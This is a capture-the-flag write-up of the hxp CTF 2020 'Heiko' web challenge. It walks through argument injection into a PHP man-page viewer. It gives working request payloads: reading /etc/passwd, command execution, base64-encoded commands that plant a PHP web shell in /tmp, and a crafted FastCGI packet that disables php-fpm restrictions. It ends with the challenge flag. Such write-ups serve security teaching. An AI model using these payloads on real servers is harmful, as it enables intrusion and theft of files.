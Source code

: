 # hxp CTF 2020 - Heiko
## Web - 244 points

![](img/heiko.png)

[App source](index.php)

According to the challenge files, the flag is in a randomly generated file `/flag_[a-zA-Z0-9]{24}.txt`.

```php
$arg = escapeshellcmd($arg); // Pass spaces through. Otherwise, we can't 'man git diff'
$manpage = shell_exec('/usr/bin/man --troff-device=html --encoding=UTF-8 ' . $arg);
```
### Invalid characters bypass

Using a character between *0x80* and *0xff* we can skip the first restriction.

In addition, the function `escapeshellcmd` eliminates this character and does not disturb us.

For example, this request returns the contents of the passwd file.

`?page=%ff/etc/passwd`

### RCE

After a while looking for a way to execute commands, we get to execute code, it should be noted that the order of the parameters matters.

`?page=%ff--html=bash --troff-device=latin1 /proc/self/cmdline ;sleep${IFS}5`

### Trying to access /flag*
* Using bash
`--html=bash .... ;echo${IFS}Y2F0IC9mbGFnKiAyPj4vdG1wL2Vycm9yICAgPj4vdG1wL3BhdGF0YWZsYWcy|base64${IFS}-d|bash`
* Using PHP
`--html=php .... ;<?=shell_exec(base64_decode(Y2F0IC9mbGFnKiAyPj4vdG1wL2Vycm9yICAgPj4vdG1wL3BhdGF0YWZsYWcy));?>`

In both cases APPARMOR blocks us

`audit: type=1400 ...: apparmor="DENIED" operation="open" profile="/usr/bin/man" name="/" pid=21653 comm="sh" requested_mask="r" denied_mask="r" fsuid=33 ouid=0`

`cat: '/flag*': No such file or directory`

### apparmor/open_basedir bypass

To get around these restrictions, we interact with the FastCGI socket of *php-fpm* to execute a PHP script.

First we use the script [fastcgipacket.rb](https://raw.githubusercontent.com/ONsec-Lab/scripts/master/fastcgipacket.rb) and generate a payload in base64.

```ruby
packet << FCGIRecord::Params.new( 1,
            "REQUEST_METHOD" => "GET",
            "SCRIPT_FILENAME" => "/tmp/patata.php",
            "PHP_VALUE" => "open_basedir=\"/\"",
            "PHP_ADMIN_VALUE" => "disable_functions=\"\""
            ).to_s
```

```sh
AQEAAQAIAAAAAQAAAAAAAAEEAAEAcwMADgNSRVFVRVNUX01FVEhPREdFVA8PU0NSSVBUX0ZJTEVOQU1FL3RtcC9wYXRhdGEucGhwCRBQSFBfVkFMVUVvcGVuX2Jhc2VkaXI9Ii8iDxRQSFBfQURNSU5fVkFMVUVkaXNhYmxlX2Z1bmN0aW9ucz0iIgAAAAEEAAEAAAAAAQUAAQAAAAAK
```

In addition, we upload a php script in the temporary directory by executing the following command, encoded in base64.

`echo "<?=shell_exec('cat /flag* > /tmp/patataflag');?>" >/tmp/patata.php`

`;echo${IFS}ZWNobyAiPD89c2hlbGxfZXhlYygnY2F0IC9mbGFnKiA%2bIC90bXAvcGF0YXRhZmxhZycpOz8%2bIiA%2bL3RtcC9wYXRhdGEucGhw|base64${IFS}-d|bash`

Now we launch the query to FastCGI's socket with the following PHP code.
The location of the PHP-fpm socket appears in the challenge's configuration files `/run/php/php7.3-fpm.sock`

```php
<?php
  $fp=fsockopen(base64_decode(dW5peDovLy9ydW4vcGhwL3BocDcuMy1mcG0uc29jaw),0,$errno,$errstr);
  var_dump($fp);
  var_dump($errstr);
  fwrite($fp,base64_decode(AQEAAQ...AAAAK));
  while(!feof($fp)){
    echo(fgets($fp,128));
  }
  fclose($fp);
?>
```
We launch the following request, using `--html=php` and a script without spaces
```
?page=%ff--html%3dphp+--troff-device%3dlatin1+--nh+--no-subpages+/proc/self/cmdline+;<?=$fp=fsockopen(base64_decode(dW5peDovLy9ydW4vcGhwL3BocDcuMy1mcG0uc29jaw),0,$errno,$errstr);var_dump($fp);var_dump($errstr);fwrite($fp,base64_decode(AQEAAQAIAAAAAQAAAAAAAAEEAAEAcwMADgNSRVFVRVNUX01FVEhPREdFVA8PU0NSSVBUX0ZJTEVOQU1FL3RtcC9wYXRhdGEucGhwCRBQSFBfVkFMVUVvcGVuX2Jhc2VkaXI9Ii8iDxRQSFBfQURNSU5fVkFMVUVkaXNhYmxlX2Z1bmN0aW9ucz0iIgAAAAEEAAEAAAAAAQUAAQAAAAAK));while(!feof($fp)){echo(fgets($fp,128));}fclose($fp);?>
```

### Read Flag
Once the flag has been copied to the temporary directory, we can read it directly from the website .

`/?page=%ff/tmp/patataflag`

`hxp{maybe_this_will_finally_get_me_that_sweet_VC_money$$$}`
